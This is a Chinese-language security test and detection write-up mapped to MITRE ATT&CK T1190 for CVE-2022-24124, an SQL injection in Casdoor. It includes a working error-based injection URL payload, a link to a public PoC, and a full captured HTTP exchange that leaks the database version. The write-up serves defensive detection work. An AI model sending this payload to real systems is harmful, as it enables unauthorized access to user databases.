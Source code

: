 # T1190-CVE-2022-24124-Casdoor SQL注入漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

### 简介

Casdoor是一个基于OAuth 2.0/OIDC的中心化的单点登录（SSO）身份验证平台，简单来说，就是Casdoor可以帮你解决用户管理的难题，你无需开发用户登录、注册等与用户鉴权相关的一系列功能，只需几个步骤进行简单配置，与你的主应用配合，便可完全托管你的用户模块，简单省心，功能强大。Casdoor目前作为Casbin社区项目统一使用的鉴权平台，并且项目已开源。

此漏洞属于Sql注入漏洞，在查询API存在与字段和值参数相关的SQL注入漏洞。

### 受影响版本

```yml
Casdoor < Casdoor 1.13.1 //1.13.1版本之前均受影响
```

### EXP/POC

请勿用做非法用途，仅用于检测测试。

```yml
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(1,version(),3)
```

已公开Poc：

```yml
https://github.com/cukw/CVE-2022-24124_POC
```

## 检测日志

HTTP.log

## 测试复现

参考测试留痕部分

## 测试留痕

```yml
GET /api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(1,version(),3) HTTP/1.1
Host: 123.58.224.8:57939
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://123.58.224.8:57939/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(1,version(),3)
Cookie: casdoor_session_id=54fbcdd93bdb8ce82c6dd4a02831a7c9
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: Origin
Access-Control-Allow-Methods: GET,PUT,PATCH
Access-Control-Allow-Origin: 
Access-Control-Expose-Headers: Content-Length
Server: beegoServer:1.12.3
Date: Sun, 25 Sep 2022 14:32:58 GMT
Content-Length: 1946
Content-Type: text/html; charset=utf-8


<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
    <title>beego application error</title>
    <style>
        html, body, body * {padding: 0; margin: 0;}
        #header {background:#ffd; border-bottom:solid 2px #A31515; padding: 20px 10px;}
        #header h2{ }
        #footer {border-top:solid 1px #aaa; padding: 5px 10px; font-size: 12px; color:green;}
        #content {padding: 5px;}
        #content .stack b{ font-size: 13px; color: red;}
        #content .stack pre{padding-left: 10px;}
        table {}
        td.t {text-align: right; padding-right: 5px; color: #888;}
    </style>
    <script type="text/javascript">
    </script>
</head>
<body>
    <div id="header">
        <h2>casdoor:Error 1105: XPATH syntax error: &#39;.12-MariaDB-0&#43;deb11u1&#39;</h2>
    </div>
    <div id="content">
        <table>
            <tr>
                <td class="t">Request Method: </td><td>GET</td>
            </tr>
            <tr>
                <td class="t">Request URL: </td><td>/api/get-organizations?p=123&amp;pageSize=123&amp;value=cfx&amp;sortField=&amp;sortOrder=&amp;field=updatexml(1,version(),3)</td>
            </tr>
            <tr>
                <td class="t">RemoteAddr: </td><td>10.0.0.2</td>
            </tr>
        </table>
        <div class="stack">
            <b>Stack</b>
            <pre>/usr/local/go/src/runtime/panic.go:1038
/go/src/casdoor/object/organization.go:48
/go/src/casdoor/controllers/organization.go:45
/usr/local/go/src/reflect/value.go:543
/usr/local/go/src/reflect/value.go:339
/go/pkg/mod/github.com/astaxie/beego@v1.12.3/router.go:897
/usr/local/go/src/net/http/server.go:2879
/usr/local/go/src/net/http/server.go:1930
/usr/local/go/src/runtime/asm_amd64.s:1581
</pre>
        </div>
    </div>
    <div id="footer">
        <p>beego 1.12.3 (beego framework)</p>
        <p>golang version: go1.17.5</p>
    </div>
</body>
</html>
```

关注GET请求URL路径内容以及返回包信息，辅助研判。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

CVE-2022-24124_POC

<https://github.com/cukw/>


